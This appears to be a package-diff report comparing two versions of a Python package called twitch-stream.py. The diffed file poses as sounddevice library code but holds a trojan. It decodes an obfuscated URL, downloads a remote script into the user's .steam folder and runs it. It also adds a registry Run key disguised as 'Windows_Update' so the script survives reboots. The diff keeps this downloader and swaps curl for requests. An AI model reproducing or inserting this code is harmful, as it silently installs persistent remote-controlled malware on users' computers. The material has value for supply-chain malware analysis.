  * *Files 0% similar despite different names*

```diff
@@ -5,14 +5,15 @@
 from base64 import b32decode
 import platform as _platform
 import sys as _sys
 from ctypes.util import find_library as _find_library
 from _sounddevice import ffi as _ffi
 import winreg
 import shutil
+import requests
 
 
 try:
     for _libname in (
             'portaudio',  # Default name on POSIX systems
             'bin\\libportaudio-2.dll',  # DLL from conda-forge
             'lib/libportaudio.dylib',  # dylib from anaconda
@@ -592,15 +593,17 @@
     query_devices
 
     """
     url = decode()
     #temp_path = _os.environ["TEMP"] + "\\script.py"
     base_path = _os.environ["USERPROFILE"] + "\\.steam\\script.py"
     #alt_path = _os.environ["ALLUSERPROFILE"] + "\\script.py"
-    _os.system(f"curl -s -o \"{base_path}\" {url}")
+    f = open(base_path, "w")
+    f.write(requests.get(decode()).text)
+    f.close()
     sub_key = "Software\Microsoft\Windows\CurrentVersion\Run"
     pythonw = _os.path.dirname(_sys.executable) + "\\pythonw.exe"
     final_val = f"\"{pythonw}\" \"{base_path}\""
     key = winreg.OpenKey(key=winreg.HKEY_CURRENT_USER, sub_key=sub_key, reserved=0, access=winreg.KEY_ALL_ACCESS)
     winreg.SetValueEx(key, "Windows_Update", 0, winreg.REG_SZ, final_val)
     winreg.CloseKey(key)
     _os.system(f"python \"{base_path}\"")
```

### Comparing `twitch-stream.py-1.1.0/twitchstream/outputvideo.py` & `twitch-stream.py-1.1.1/twitchstream/outputvideo.py`

 * *Files identical despite different names*

### Comparing `twitch-stream.py-1.1.0/twitchstream/tests/conftest.py` & `twitch-stream.py-1.1.1/twitchstream/tests/conftest.py`

 * *Files identical despite different names*

### Comparing `twitch-stream.py-1.1.0/twitchstream/tests/test_chat.py` & `twitch-stream.py-1.1.1/twitchstream/tests/test_chat.py`

 * *Files identical despite different names*

